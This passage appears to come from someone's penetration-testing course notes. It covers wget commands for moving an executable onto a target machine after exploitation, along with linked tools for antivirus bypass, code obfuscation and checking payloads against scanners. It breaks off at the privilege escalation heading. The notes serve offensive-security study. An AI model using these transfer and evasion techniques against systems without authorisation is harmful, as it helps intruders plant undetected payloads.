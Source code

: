 ```
* ``` wget http://127.0.0.1/file.exe ```
* ``` wget -O msi-install.exe http://127.0.0.1/file.exe ```
* ``` wget -b http://127.0.0.1/file.exe ```
* ``` wget --ftp-user=User --ftp-password=ftp://127.0.0.1/file.exe -o msi-install.exe```

Other Tools/Resources:

* Updog: [https://github.com/sc0tfree/updog](https://github.com/sc0tfree/updog)
* Pwndrop: [https://github.com/kgretzky/pwndrop](https://github.com/kgretzky/pwndrop)
 
* Awakened: Transfer files from Kali to the target machine
[https://awakened1712.github.io/oscp/oscp-transfer-files/](https://awakened1712.github.io/oscp/oscp-transfer-files/)
* Ropnop Transferring Files from Linux to Windows (post-exploitation):
[https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)


# Section 14: Antivirus Bypassing
I did not spend too much time learning about this section since Metasploit encodes it payloads to bypass most anti-virus (well older versions at least). The course is pretty straight forward in this section.

Tools to play with Anti-Virus evasion:
- Veil-Framework: [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)
- Shellter: [https://www.shellterproject.com/](https://www.shellterproject.com/)
- Unicorn [https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)
- UniByAV: [https://github.com/Mr-Un1k0d3r/UniByAv](https://github.com/Mr-Un1k0d3r/UniByAv)

Tools to play with for Obfuscation: 

PowerShell: 
* Invoke-Obfuscation: [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
* Chimera: [https://github.com/tokyoneon/Chimera](https://github.com/tokyoneon/Chimera)

Python: 
* Pyarmor: [https://pypi.org/project/pyarmor/](https://pypi.org/project/pyarmor/)
* PyObfx: [https://github.com/PyObfx/PyObfx](https://github.com/PyObfx/PyObfx)

C#:
* ConfuserEx: [https://github.com/yck1509/ConfuserEx](https://github.com/yck1509/ConfuserEx)


Testing Payloads Publicly. (Keep in mind that submitting your samples to online scanners may be distributed to other AV engines): 
- Nodistribute: [https://nodistribute.com/](https://nodistribute.com)
- Virustotal: [https://www.virustotal.com/gui/home](https://www.virustotal.com/gui/home)
- Hybrid-Analysis: [https://www.hybrid-analysis.com/](https://www.hybrid-analysis.com)
- Any-Run: [https://app.any.run](https://app.any.run)
- Reverse.it: [https://reverse.it](https://reverse.it)
- Anti-Virus Evasion Tool: [https://github.com/govolution/avet](https://github.com/govolution/avet)
- DefenderCheck: [https://github.com/matterpreter/DefenderCheck](https://github.com/matterpreter/DefenderCheck)
- ThreatCheck: [https://github.com/rasta-mouse/ThreatCheck](https://github.com/rasta-mouse/ThreatCheck)

# Section 15: Privilege Escalation
```